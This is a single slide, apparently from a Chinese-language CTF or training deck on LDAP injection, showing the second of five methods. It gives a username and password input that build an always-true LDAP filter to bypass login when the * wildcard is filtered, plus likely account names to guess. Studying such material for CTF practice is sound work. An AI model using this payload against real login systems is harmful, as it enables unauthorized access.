

五种注入方式
方法二 ： 猜正确账号构造永真式 （通配符*被过滤）
username  :  账号)(|(uid=账号
password   :  anyword)
payload      :  (&(uid=账号)(|(uid=账号)(userPassword=anyword)))
分析
与方法一原理相同，适用于 * 通配符被过滤的情况，但需要猜中正确的账号
Challenge 可能使用的账号：
- admin
- administrator
- root
- ch25 （从 URL 取到的题号，从 rootme 的经验上看，题号经常就是账号）